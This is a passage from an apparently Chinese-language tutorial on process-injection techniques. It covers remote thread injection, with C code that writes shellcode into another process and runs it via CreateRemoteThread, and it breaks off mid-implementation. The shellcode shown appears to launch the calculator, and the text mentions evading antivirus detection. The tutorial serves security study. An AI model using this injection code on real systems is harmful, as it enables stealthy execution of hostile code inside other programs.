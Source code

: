 # 注入方式

根据各阶段调用的API，读写的内存位置的区别进行 如下分类（实战中常用的 6 种）：

## 1、远程线程注入

![image-20230410210651326](6种常见注入方式/image-20230410210651326.png)

原始的注入手法。通过API申请空间，然后将code写入内存，然后创建线程执行。这种手法基本会被监控，但是报毒与否就再说了。

### 流程

> 打开进程 ---》申请空间 ---》写入shellcode ---》创建线程执行

```c
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, wpid);
	LPVOID IpBaseAddress = VirtualAllocEx(hProcess, 0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    //将shellcode写入内存
	WriteProcessMemory(hProcess, IpBaseAddress, shellcode, sizeof(shellcode), NULL);
    //创建线程执行shellcode
	CreateRemoteThread(hProcess, 0, 100, (LPTHREAD_START_ROUTINE)IpBaseAddress, 0, 0, NULL);
```

### 实现代码

```c
#include<stdio.h>
#include<windows.h>
#include<stdlib.h>

unsigned char shellcode[] = "\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8\xA0\x12\x86\x76\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8\xF0\xE1\x89\x76\xFF\xD0\x33\xC0\x50\xB8\x80\x59\x86\x76\xFF\xD0\x90\x90\xC3";

int main()
{
    //计算器的进程号，准备注入他的进程
	int wpid = 3632;
    
    //打开一个进程，后面指定PID
```